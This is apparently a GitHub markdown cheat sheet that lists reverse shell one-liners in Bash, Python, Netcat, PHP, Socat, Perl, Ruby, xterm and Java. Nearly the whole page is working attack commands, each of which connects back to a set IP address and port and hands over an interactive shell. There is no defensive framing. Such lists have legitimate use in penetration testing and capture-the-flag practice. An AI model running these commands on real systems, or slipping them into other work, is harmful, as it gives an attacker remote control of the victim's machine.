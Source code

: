 # Reverse Shell Cheat Sheet

### Bash
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat
```
nc -e /bin/sh 192.168.0.5 4444
```

### PHP
```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Socat
```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

### Perl
```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### xTerm
```
xterm -display 192.168.0.5:4444
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/192.168.0.5/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)